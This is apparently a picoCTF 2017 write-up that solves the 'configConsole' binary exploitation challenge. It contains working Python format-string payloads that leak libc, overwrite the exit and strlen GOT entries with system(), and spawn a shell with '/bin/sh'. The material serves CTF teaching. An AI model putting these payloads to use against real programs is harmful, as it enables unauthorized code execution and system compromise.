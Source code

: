 # Level 3 - configConsole

```
Config Console
In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. 
See if you can get a shell on shell2017.picoctf.com:47232.

HINTS

You can either see where libc is or modify the execution. 
Is there a way to get the vulnerability to run twice so that you can do both?
There's a place in libc that will give you a shell as soon as you jump to it. Try looking for execve.
```

The vulnerable piece of code is here:
```C
void set_exit_message(char *message) {
    if (!message) {
        printf("No message chosen\n");
        exit(1);
    }
    printf("Exit message set!\n");
    printf(message);   //<---------------------------HERE

    append_command('e', message);
    exit(0);
}
```
This is obviously a FSB. But there is a call to exit(0) right afterwards, so how can we get around this?

I did this by leaking a libc address and updating the GOT entry for exit() in one statement:
```python
  # Set the exit message, since that has the vulnerable printf()
  # First print out a leaked address to use. Then update write to GOT
  # to update the lower 2Bytes of the exit() address with something 
  # that doesn't do anything. Thereby just returning instead of exiting
  payload = 'e'
  payload += '_______'
  payload += p64(0x4141414141414141)
  payload += ' %25$p%{}c%19$hn '.format(int(0xb45-14))
  payload += 'AAAAA'
  payload += p64(0x601258)
  print r.sendline(payload)
```

Before printf is called:
`0x601258 (exit@got.plt) —▸ 0x400736 (exit@plt+6)`
After printf is called:
`0x601258 (exit@got.plt) —▸ 0x400b45 (main+114)`

So whenever exit() is called it will jump back into main+114 instead.

So now we have two things:
* Libc leaked address
* Ability to do more calls to the vulnerable printf

The hint says that there is a place in libc that we can jump to that will give you a shell. 
That's nice and all, but is very libc binary specific. Let's do it in a more robust way.

Next, we want to find a function that will take a pointer, preferably to a string we control.
```C
void set_prompt(char *prompt) {
    if (!prompt) {
        printf("No prompt chosen\n");
        exit(1);
    }
    if (strlen(prompt) > 10) {                //<------------ This looks perfect
        printf("Prompt too long\n");
        exit(1);
    }
    printf("Login prompt set to: %10s\n", prompt);

    append_command('p', prompt);
    exit(0);
}
```
Great, and `strlen()` is only used here, so we're safe to update that with multiple writes
```python
  #Start overwriting the GOT entry for strlen()
  #update it with the address of system()
  wait_for_prompt(r)
  payload  = 'e '
  payload += '%{}c%17$hn '.format(int(addr1))
  payload += 'A'*(8)
  payload += p64(0x601210)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%18$hn '.format(int(addr2))
  payload += 'A'*(8+8)
  payload += p64(0x601210+2)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%19$hn '.format(int(addr3))
  payload += 'A'*(8+8+8)
  payload += p64(0x601210+4)

  print r.sendline(payload)
```

Now at this point, if we look at the GOT entry for strlen() we have:
`0x601210 (strlen@got.plt) —▸ 0x7fb0701b3490 (system)`
Perfect. Now we just have to pass the right parameter to `system()`

```python
  # strlen() in GOT is now overwritten
  # since prompt calls strlen on string passed
  # we can input string directly here
  print r.sendline('p /bin/sh')
  print "You should now have shell"
  
  # Drop to interactive console
  r.interactive()
```

Full exploit code in the [exploit.py](exploit.py) file.
